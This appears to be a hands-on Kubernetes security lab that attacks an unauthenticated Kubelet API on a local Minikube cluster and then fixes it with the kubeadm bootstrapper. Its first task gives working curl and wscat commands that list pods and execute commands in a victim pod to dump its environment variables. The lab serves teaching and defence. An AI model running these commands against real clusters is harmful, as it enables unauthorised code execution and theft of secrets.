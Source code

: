 ### Attack the Kubelet API
The Kubelet API is responsible for the master to node communication within a Kubernetes cluster. If you expose your nodes to the internet without some important configurations in place you are going to have a bad time. From the official Kubernetes docs:
"By default, requests to the Kubelet’s HTTPS endpoint that are not rejected by other configured authentication methods are treated as anonymous requests, and given a username of system:anonymous and a group of system:unauthenticated."

So let's exploit this "misconfiguration" within Minikube.

## Task 1: Spin up a default Kubernetes cluster

1. Start Minikube using the default localkube bootstrapper:
```
export MINIKUBE_HOME=~/Desktop/lab-tools/.kube
minikube delete
minikube start
```

2. The Kubelet API runs on every node in a cluster. If an individual has network access to a node in the kubernetes cluster, they are able to do some interesting things by default, including "exec-ing" into running pods. 
```
# port 10250 is the read/write port that the Kubelet API uses for communication to the master node
minikube ip
curl --insecure https://$(minikube ip):10250/pods | jq
# jq is a tool to prettify JSON output - it is optional 
```

3. As you can see, using a default implementation of Minikube (and many other kubernetes production bootstrappers) we are able to list all of the pods running on a given node with a simple `curl` command. This seems bad, right? Let's try to Exec and do some real damage. First, we launch some victim pods to take over. In the `manifests` directory, run the following command:
```
kubectl create -f .
kubectl get pods
```

4. Now we have our unshorten-api Deployment and Service up and running we can extract details from them using the same `curl` command we used before:
```
curl --insecure https://$(minikube ip):10250/pods | jq
```

5. In the `metadata` field of the JSON output for our Pod you will find the pod name (remember, this curl command is NOT authenticated. An attacker can see this info without the proper settings in place!). The value will look something like `"name": "link-unshorten-8746d649b-7k8w2",`

6. Now, we take that Pod name and run another curl command. Reading Pod data is interesting but we want to do some damage:
```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://$(minikube ip):10250/exec/default/link-unshorten-8746d649b-7k8w2/unshorten-api-container?command=env&input=1&output=1&tty=1"
```

7. This opens a stream which we can access using [wscat](https://www.npmjs.com/package/wscat). Take note of the `location:` header as we will be using that value to read from the stream. You can install `wscat` using the link above. Once `wscat` is installed, run the following command:
```
wscat -c "https://$(minikube ip):10250/cri/exec/<valueFrom302>" --no-check
```
    
You can use cURL too:
### !! Please note that this command only works reliably with the newer versions of cURL. If you are getting errors, try updating cURL !!
```
curl -k --include \
     --no-buffer \
     --header "Connection: Upgrade" \
     --header "Upgrade: websocket" \
     --header "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==" \
     --header "Sec-WebSocket-Version: 13" \
     https://$(minikube ip):10250/cri/exec/<valueFrom302>
```

8. These are *all of the environment variables* for our unshorten-api pod, printed to the screen, unauthenticated. 

See any issues here?

## Task 2: Fix the Issue
There are a number of way to address the kubelet-api "misconfiguration" issue. To do this locally, our most simple solution is to bootstrap our cluster using the `kubeadm` bootstrapper. Out of the box, Minikube still uses `localkube` to build clusters. `localkube` runs every cluster component as a single binary in the Kubernetes environment. This project is in the process of being deprecated in favor of `kubeadm` which offers us a much more robust solution that matches production clusters more closely.
```
minikube delete
minikube start --bootstrapper kubeadm
```

1. Run our `curl` command from before. We see that the response is `Forbidden` which is due to how `kubeadm` bootstraps clusters. `kubeadm` implements authorization of the kubelet by default. Let's take a look at this setting under the hood:
```
curl --insecure https://$(minikube ip):10250/pods
```

2. SSH into our Minikube node and take a look at our kubelet config:
```
minikube ssh
sudo cat /etc/kubernetes/kubelet.conf
```

3. You will see that our config defines a set of certificates which successfully enables authentication between the Master and Nodes. 

### Note: `kubeadm` does this by default but this is not always the case for other bootstrap mechanisms or scratch-built clusters! Always manually check that this configuration is enforced!

### Discussion Question: Is your kubelet api configured to block these attacks?
